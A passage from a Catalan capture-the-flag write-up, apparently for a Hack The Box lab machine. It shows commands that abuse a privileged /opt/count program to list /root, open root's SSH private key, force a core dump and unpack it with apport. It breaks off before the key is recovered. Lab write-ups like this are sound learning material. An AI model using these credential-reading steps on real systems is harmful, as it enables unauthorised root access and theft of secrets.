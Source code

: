 ```
`ssh -i secret dasith@10.10.11.120`

Enumero el contingut del directori root aprofitant el programa */opt/count*:  
`echo '/root/' | ./count`
```
Enter source file/directory name: -rw-r--r--	.viminfo
drwxr-xr-x	..
-rw-r--r--	.bashrc
drwxr-xr-x	.local
drwxr-xr-x	snap
lrwxrwxrwx	.bash_history
drwx------	.config
drwxr-xr-x	.pm2
-rw-r--r--	.profile
drwxr-xr-x	.vim
drwx------	.
drwx------	.cache
-r--------	root.txt
drwxr-xr-x	.npm
drwx------	.ssh

Total entries       = 15
Regular files       = 4
Directories         = 10
Symbolic links      = 1
Save results a file? [y/N]: $ 
```

Mirem si root té alguna clau privada per connectar-se a través de ssh com a root:

`echo '/root/.ssh/' | ./count`

```
Enter source file/directory name: drwx------	..
-rw-------	authorized_keys
-rw-------	id_rsa
drwx------	.
-rw-r--r--	id_rsa.pub

Total entries       = 5
Regular files       = 3
Directories         = 2
Symbolic links      = 0
```

Seguidament, executem el programa pasant-li com a parametre el fitxer del qual root té accès i en volem saber el contingut. En aquest cas, la clau privada de root:

```
 ./count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
```

En aquest punt, tinguent el programa encara en execució, fem `Control+\` per abortar el programa amb un core dump. Aquest core dump és guardarà per defecte a */var/crash*, ja que el sistema victima és un Ubuntu.
Dins la carpeta */var/crash*, utilitzarem apport per poder debuggar el core dump:

`apport-unpack nom_crash.crash /path/on/ho/exportem/`

Apport ens genera la següent estructura:
```